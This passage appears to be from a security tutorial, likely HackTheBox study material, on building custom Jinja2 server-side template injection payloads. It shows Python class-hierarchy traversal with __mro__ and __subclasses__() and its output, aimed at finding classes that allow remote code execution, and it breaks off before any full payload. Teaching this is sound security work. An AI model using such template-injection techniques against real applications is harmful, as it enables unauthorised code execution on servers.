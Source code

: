 There will be times where we will be needing to construct a custom payload to exploit SSTI vulnerabilities. For example, a template engine that executes templates inside a sandbox, which can make exploitation difficult or impossible.
## Custom Jinja2 Payload
1. The first step is to understand Python's hierarchy. Using `__mro__` or `mro()`, we can go back up the three of inherited objects in the Python environment.
```python
import flask

s = 'HTB'
s.__class__.mro()[1].__subclasses__()

[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```
2. Next is to look for useful classes that can facilitate remote code execution.
```python
s.__class__.mro()[1].__subclasses__()
```